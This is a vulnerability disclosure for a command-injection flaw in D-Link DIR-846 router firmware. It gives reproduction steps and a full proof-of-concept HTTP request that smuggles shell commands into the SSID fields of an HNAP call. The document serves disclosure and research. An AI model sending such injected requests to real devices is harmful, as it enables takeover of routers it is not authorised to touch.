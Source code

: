 # D-Link DIR-846 Remote Code Execution #

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##

Reproduction Steps:
1. Go to your wi-fi router gateway [i.e: http://192.168.0.1]
1. login with admin
1. Send http request with admin cookies,
1. this POC will create file /tmp/testrce.php and /tmp/testrce1.php:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetMasterWLanSettings":{"wl(1).(0)_ssid":"111;touch /tmp/testrce.php","wl(0).(0)_ssid":"assssss;touch /tmp/testrce1.php"}}
```
1. The vulnerable code is in file /squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php.
![](dlink3.png)
